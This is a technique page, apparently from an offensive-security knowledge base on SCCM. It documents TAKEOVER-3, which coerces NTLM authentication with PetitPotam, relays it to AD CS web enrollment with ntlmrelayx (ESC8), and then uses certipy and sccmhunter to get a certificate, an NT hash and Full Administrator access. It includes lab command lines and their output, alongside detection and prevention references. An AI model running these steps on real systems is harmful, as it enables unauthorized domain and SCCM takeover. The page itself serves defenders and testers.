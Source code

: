 # TAKEOVER-3

## Description
Hierarchy takeover via NTLM coercion and relay to HTTP on AD CS

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-3.1: Coerce primary site server
    - TAKEOVER-3.2: Coerce SMS Provider
    - TAKEOVER-3.3: Coerce passive site server
    - TAKEOVER-3.4: Coerce site database server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server (or WebClient enabled and connectivity via any port)
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Either of the following AD CS services is in use:
    - Certificate Authority Web Enrollment
    - Certificate Enrollment Web Service
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the AD CS service
- Extended protection for authentication is not required by the target AD CS service
- An enabled AD CS template that allows enrollment and supports authentication 
- Relay target settings:
    - `RestrictReceivingNTLMTraffic` = `0` or not present
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

When available, SCCM uses public key infrastructure (PKI) for authentication and authorization. While not required, administrators may choose to deploy Active Directory Certificate Services (AD CS) to support SCCM's [various certificate requirements](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates) rather than use self-signed certificates. AD CS is home to its own [misconfigurations](https://posts.specterops.io/certified-pre-owned-d95910965cd2); particularly ESC8. In short, the [certificate enrollment web interface](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831649(v=ws.11)) is vulnerable to NTLM relaying. An attacker may coerce NTLM authentication from a coercion target and relay to the AD CS enrollment web service to enroll in and acquire a valid certificate template on behalf of the target. The template can then be used to escalate to "Full Administrator" in SCCM by impersonating the coerced target.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-3.1: Coerce primary site server
- TAKEOVER-3.2: Coerce SMS Provider
- TAKEOVER-3.3: Coerce passive site server
- TAKEOVER-3.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-3.1 through TAKEOVER-3.4 are the same except that a different system is targeted for coercion of NTLM authentication. The following example assumes the AD CS service has been previously enumerated and the web enrollment form is vulnerable to ESC8.

1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [12:24:25 AM] INFO     [+] Finished profiling all discovered computers.                                   
    [12:24:25 AM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the certificate enrollment web interface on the certificate authority:

    ```
    └─# ntlmrelayx.py -t http://ca.internal.lab/certsrv/certfnsh.asp --adcs -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:

    ```
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.9, attacking target http://ca.internal.lab
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://ca.internal.lab as LAB/SCCM$ SUCCEED
    [*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 9
    [*] Base64 certificate of user SCCM$:
    MIIQ/QIBAzCCELcGCSqGSIb3DQEHAaCCEKgEghCkMIIQoDCCBtcGCSqGSIb3DQEHB.....
    ```

4. Use `certipy` to recover the coerced target's NT hash:

    ```
    └─# certipy auth -pfx sccm.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: sccm$@internal.lab
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'sccm.ccache'
    [*] Trying to retrieve NT hash for 'sccm$'
    [*] Got hash for 'sccm$@internal.lab': aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b
    ```

5. Use `sccmhunter` to authenticate to the coerced target's own AdminService:

    ```
    └─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b -ip 10.10.100.9
    SCCMHunter v1.0.0 by @garrfoster
    [21:23:25] INFO     [!] Enter help for extra shell commands
    () C:\ >> show_admins
    [21:23:31] INFO     Tasked SCCM to list current SMS Admins.
    [21:23:31] INFO     Current Full Admin Users:
    [21:23:31] INFO     LAB\Administrator
    [21:23:31] INFO     LAB\lowpriv
    ```

## References
- Will Schroeder and Lee Chagolla-Christensen, [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- Oliver Lyak, [Certipy](https://github.com/ly4k/Certipy)
- Microsoft, [Plan for PKI certificates in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates)
